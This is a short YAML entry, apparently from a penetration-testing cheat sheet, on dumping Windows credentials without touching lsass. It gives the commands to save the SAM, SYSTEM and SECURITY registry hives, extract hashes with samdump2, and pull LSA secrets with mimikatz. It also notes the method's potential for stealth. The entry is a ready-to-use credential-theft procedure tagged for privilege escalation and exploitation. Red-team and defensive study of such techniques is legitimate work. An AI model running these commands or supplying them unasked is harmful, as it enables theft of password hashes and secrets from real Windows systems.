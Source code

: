 ---
description: |
  The lsass Process while great, is no where neaar the only way to dump credintials from windows. One of which is access the three registry hives:
  SAM, SYSTEM, and SECURITY. This is a method that can be used to dump credentials without mimikatz as well as offer some potenial stealth.  

command: |
  # The following command will dump the SAM, SYSTEM, and SECURITY hives to the current directory.
  reg save HKLM\SAM sam.hive
  reg save HKLM\SYSTEM system.hive
  reg save HKLM\SECURITY security.hive

  #Assuming you have transfered the hives to your kali
  samdump2 system sam 

  #We can also get lsa secrets via mimikatz
  lsadump::secrets /system:c:\temp\system.hive /security:c:\temp\security.hive

items:
  - Shell
  - PrivEsc
  - Exploitation
OS:
  - Windows
  - Linux
references:
  - https://www.ired.team/offensive-security/credential-access-and-credential-dumping
  - https://www.synacktiv.com/en/publications/lsa-secrets-revisiting-secretsdump


